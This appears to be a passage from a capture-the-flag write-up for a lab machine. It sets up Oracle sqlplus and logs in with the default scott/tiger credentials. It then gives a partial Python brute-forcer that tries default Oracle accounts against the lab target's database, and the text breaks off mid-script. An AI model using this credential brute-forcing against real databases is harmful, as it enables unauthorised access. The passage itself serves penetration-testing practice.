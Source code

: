 ```bash
sudo mkdir -p /opt/oracle
sudo mv instantclient-sdk-linux.x64-11.2.0.4.0.zip /opt/oracle/
sudo mv instantclient-basic-linux.x64-11.2.0.4.0.zip /opt/oracle/
sudo mv instantclient-sqlplus-linux.x64-11.2.0.4.0.zip /opt/oracle/
sudo unzip /opt/oracle/instantclient-sdk-linux.x64-11.2.0.4.0.zip -d /opt/oracle/
sudo unzip /opt/oracle/instantclient-basic-linux.x64-11.2.0.4.0.zip -d /opt/oracle/
sudo unzip /opt/oracle/instantclient-sqlplus-linux.x64-11.2.0.4.0.zip -d /opt/oracle/
alias sqlplus='/opt/oracle/instantclient_11_2/sqlplus'
export PATH=$PATH:/opt/oracle/instantclient_11_2
export SQLPATH=/opt/oracle/instantclient_11_2
export TNS_ADMIN=/opt/oracle/instantclient_11_2
export LD_LIBRARY_PATH=/opt/oracle/instantclient_11_2
export ORACLE_HOME=/opt/oracle/instantclient_11_2
```

Now that `sqlplus` is installed, login using the credentials found:

```bash
sqlplus scott/tiger@10.10.10.82:1521/XE
```

![oracle3](./silo/oracle3.png)

Some research shows that there is  Python library (used by `odat` as well) that can be used to make a simple brute forcer that performs better than all the others (lolz):

- https://oracle.github.io/python-cx_Oracle/
- https://cx-oracle.readthedocs.io/en/latest/user_guide/installation.html

```python
import random
import cx_Oracle
import multiprocessing
import multiprocessing.dummy

DATABASE = 'XE'
TARGET = '10.10.10.82:1521'
WORDLIST = '/usr/share/nmap/nselib/data/oracle-default-accounts.lst'

def thread(credential):
  username = credential.split('/')[0].strip().lower()
  password = credential.split('/')[1].strip().lower()
  #print(f'[*] trying {username}/{password} ...')
  try:
    conn = cx_Oracle.connect(f'{username}/{password}@{TARGET}/{DATABASE}')
    print(f'[!!!] FOUND: {username}/{password}')
  except cx_Oracle.DatabaseError as exc:
    error, = exc.args
    if error.code not in [1017]:
      print(f'[???] FOUND: {username}/{password}')
```